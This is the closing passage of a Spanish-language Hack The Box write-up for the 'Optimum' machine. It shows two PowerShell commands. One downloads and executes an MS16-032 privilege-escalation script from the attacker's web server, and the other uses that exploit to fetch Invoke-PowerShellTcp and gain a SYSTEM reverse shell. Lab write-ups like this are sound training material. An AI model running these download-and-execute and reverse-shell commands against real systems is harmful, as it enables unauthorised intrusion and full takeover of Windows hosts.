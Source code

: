 aprovechamos que tenemos un servidor web en python em nuestra maquina local y ejecutamos esto en la maquina victima

```bash
PS C:\Users\kostas\Desktop> IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.70/Invoke-MS16032.ps1')
PS C:\Users\kostas\Desktop> Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.70/Invoke-PowerShellTcp.ps1')"
```

obteniendo una reverse shell exitosa con privilegios de nt authority system

![Untitled](/assets/images/2022-02-13-writeup-maquina-htb-optimum/Untitled%205.png)

gracias por leer este writeup, nos vemos AbelJM